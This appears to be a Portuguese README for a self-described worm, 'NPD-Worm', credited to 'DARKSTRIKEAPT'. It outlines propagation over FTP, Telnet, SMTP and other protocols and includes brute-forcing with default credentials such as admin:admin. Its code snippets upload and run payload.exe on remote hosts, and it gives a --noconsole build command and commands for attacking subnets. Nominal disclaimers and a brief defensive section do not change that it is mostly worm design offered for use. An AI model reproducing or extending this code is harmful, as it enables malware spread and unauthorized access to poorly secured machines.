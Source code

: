 ```markdown
# DARKSTRIKEAPT NPD-Worm (Network Payload Dispatcher Worm)  
**CONFIDENCIAL - PROPRIEDADE EXCLUSIVA DA DARKSTRIKEAPT**  
*Advanced Persistent Threat Division*  

---

## 📜 Visão Geral  
O **NPD-Worm** é um worm experimental projetado para fins de pesquisa em segurança ofensiva, focado na disseminação de cargas executáveis através de múltiplos protocolos de rede. Seu objetivo é demonstrar técnicas de propagação em ambientes heterogêneos (IPv4/IPv6) e a exploração de serviços vulneráveis.  

**Aviso Legal**:  
- Este projeto é **estritamente educacional**.  
- O uso não autorizado em redes reais é ilegal e antiético.  
- A DARKSTRIKEAPT não endossa atividades maliciosas.  

---

## 🛠️ Funcionalidades Principais  
### 🔄 Multi-Protocol Support  
- **Protocolos Suportados**:  
  - **FTP (Port 21)**: Upload de payload via STOR.  
  - **Telnet (Port 23)**: Execução remota de comandos.  
  - **SMTP (Port 25)**: Disfarce de payload em e-mails.  
  - **IMAP (Port 143)**: Armazenamento de payload em caixas de e-mail.  
  - **HTTP/HTTPS (Ports 80/443)**: Upload via requisições POST.  
  - **SMB/RDP (Ports 445/3389)**: Exploração de compartilhamentos Windows (em desenvolvimento).  
  - **IPv6 Ready**: Comunicação dual-stack (IPv4 e IPv6).  

### 🎯 Técnicas Ofensivas  
- **Credential Brute-Forcing**: Testa combinações pré-definidas de usuário/senha (ex: admin:admin).  
- **Network Scanner**: Identificação de hosts e portas ativas em sub-redes.  
- **Payload Delivery**: Injeção de carga via métodos específicos de cada protocolo.  
- **Stealth Mode**: Timeouts reduzidos e tratamento silencioso de exceções para evadir detecção básica.  

---

## 🔍 Detalhes Técnicos  
### 🧩 Estrutura do Código  
```plaintext  
npd_worm/  
├── core/  
│   ├── dispatchers/          # Implementações por protocolo  
│   │   ├── ftp_handler.py  
│   │   ├── telnet_handler.py  
│   │   └── ...  
│   ├── scanner.py            # Módulo de varredura de rede  
│   └── payload_loader.py     # Gerenciamento de cargas (ex: base64, hex)  
├── config/  
│   ├── credentials.txt       # Lista de credenciais para brute-force  
│   └── target_networks.txt   # Sub-redes alvo (ex: 192.168.1.0/24)  
└── npd_worm.py               # Ponto de entrada principal  
```  

### 🕵️ Protocol Handlers (Exemplos)  
1. **FTP Handler**:  
   ```python  
   def ftp_dispatcher(ip, port):  
       try:  
           ftp = ftplib.FTP(ip)  
           ftp.login(user='admin', passwd='admin')  
           ftp.storbinary('STOR payload.exe', PAYLOAD)  # Upload do payload  
       except:  
           pass  # Falha silenciosa  
   ```  

2. **Telnet Handler**:  
   ```python  
   def telnet_dispatcher(ip, port):  
       tn = telnetlib.Telnet(ip, port)  
       tn.write(b'chmod +x payload.exe && ./payload.exe\n')  # Execução remota  
   ```  

### 🔧 Configuração  
1. **Payload**:  
   - Substitua `EXECUTABLE_PAYLOAD_HERE` por sua carga binária codificada (ex: base64).  
   - Para cargas remotas, use URLs encurtadas ou serviços como **GitHub Gist**.  

2. **Alvos**:  
   - Edite `target_networks.txt` para incluir sub-redes específicas (ex: `10.0.0.0/8`).  

3. **Compilação para Binário**:  
   ```bash  
   pyinstaller --onefile --noconsole npd_worm.py -n darkstrike_worm  
   ```  

---

## 🚀 Uso (Ambiente Controlado)  
1. **Requisitos**:  
   - Python 3.10+  
   - Bibliotecas: `pip install pyinstaller cryptography`  

2. **Execução**:  
   ```bash  
   python npd_worm.py --target 192.168.1.0/24  # Varredura de rede  
   ```  

3. **Modo de Ataque**:  
   ```bash  
   # Disparo manual contra um host específico  
   python npd_worm.py --target 10.0.2.15 --port 21 --protocol ftp  
   ```  

---

## 🛡️ Medidas Defensivas (Para Análise)  
- **Monitoramento de Portas**: Bloqueie portas não essenciais (ex: Telnet, FTP).  
- **Segmentação de Rede**: Isole sub-redes críticas.  
- **Autenticação Forte**: Use 2FA e evite credenciais padrão.  
- **Inspeção de Tráfego**: Firewalls com inspeção de protocolos (ex: Snort, Suricata).  

---

## ⚠️ Avisos Legais e Éticos  
- **Confidencialidade**: Este código é propriedade intelectual da DARKSTRIKEAPT e não deve ser compartilhado.  
- **Responsabilidade**: Qualquer uso fora de laboratórios autorizados é de responsabilidade exclusiva do operador.  
- **Conformidade**: Respeite leis como GDPR, CFAA e Lei Carolina Dieckmann (Brasil).  

---

**DARKSTRIKEAPT**  
*Advanced Cyber Operations | 2024*  
``` 

### 📌 Notas Finais  
- Este worm é uma **prova de conceito simplificada**. Versões reais empregariam técnicas avançadas como:  
  - **Criptografia**: Ofuscação de payload e comunicação.  
  - **Persistence**: Registro em serviços (ex: systemd, Registry).  
  - **Zero-Day Exploits**: Exploração de vulnerabilidades não públicas.  
- Destrua todas as cópias após análise autorizada.

___________________________________________________________________###__________________________

https://renan21002200.wixsite.com/renansantoscyberseo

https://counterintelligencecoursescybernetics.wordpress.com/

https://cyberwarfarecounterintelligence.wordpress.com/

https://cyberaptsecurity.wordpress.com/

https://darkstrikaptevilcorpcounterintelligency.wordpress.com/

https://safehousessecurity.wordpress.com/

